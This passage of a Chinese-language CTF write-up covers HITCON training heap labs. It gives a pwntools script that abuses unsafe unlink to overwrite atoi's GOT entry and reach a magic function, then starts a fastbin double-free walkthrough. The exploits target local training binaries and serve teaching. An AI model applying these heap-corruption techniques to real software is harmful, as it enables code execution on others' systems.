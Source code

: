 ### 2. 利用unlink调用magic函数  
  
这里主要是构造能够通过检查的chunk数据  
  
![](/image/HITCON_training/2.png)  
  
```python  
addItem(0x80,"a"*8) #chunk0  
addItem(0x80,"b"*8) #chunk1  
addItem(0x80,"c"*8) #chunk2  
#需要注意，这三个chunk的大小都要保证不在fastbin的范围内  
#因为fastbin的size的p位默认为1，就无法进行unlink操作  
  
FD = 0x6020c8 - 3*8 #在bss段，0x6020c8恰好存储了chunk0的指针  
BK = FD +8  
payload1 = p64(0)+p64(0x81)+p64(FD)+p64(BK)+"a"*0x60  
payload1 += p64(0x80)+p64(0x90)  
changeItem(0,0x90,payload1)  
deleteItem(1)  
#构造一个假的大小为0x80的fake_chunk，同时通过堆溢出  
#将chunk1的pre_size和size进行修改，使得size的p位为0  
#在free掉chunk1的时候，fake_chunk和chunk1就会进行合并  
#这时就会对fake_chunk进行unlink操作  
#这时就要对FD和BK进行精心构造，使得能够绕过unlink的检查  
#也就是使得：FD->bk = p  &&  BK->fd = p  
#在通过检查后，unlink会导致：*p=p-3*8=0x6020c8 - 3*8  
  
  
payload2 = p64(0)+p64(0)+p64(0x80)+p64(FD)+p64(0x80)+p64(atoi_got)  
changeItem(0,len(payload2),payload2)  
changeItem(1,0x10,p64(magic))  
#这时向chunk0中输入内容，实际上也就是向0x6020c8 - 3*8中输入内容  
#可以修改chunk_list，从而构造 UAF   
r.recvuntil("Your choice:")  
r.sendline("5")  
r.interactive()  
```  
  
## lab12  
  
fastbin double free漏洞，利用double free修改fd使得下下次malloc该chunk的时候可以取得自己想要的位置。  
  
在下一次malloc(bytes)的时候，根据bytes的大小取得index后，到对应的fastbin找，取出后检查该chunk的(unsigned long)size是否属于该fastbin。  
  
- 但比较的时候是先以fastbin中第一个size取得fastbin的index，再去用这个index跟刚刚算的index是否相同，不过这里取index的方式是用unsigned int(4 byte)，所以伪造时不用满足8 byte  
- 因为没有检查alignment所以不一定要以8的倍数作为chunk的address  
  
```python  
#coding=utf-8  
  
from pwn import *  
  
context.log_level = "debug"  
context.terminal = ["tmux", "split", "-h"]  
  
r = process("./secretgarden")  
  
def raiseFlower(size, name, color):  
	r.recvuntil("Your choice : ")  
	r.sendline("1")  
	r.recvuntil(":")  
	r.sendline(str(size))  
	r.recvuntil(":")  
	r.sendline(name)  
```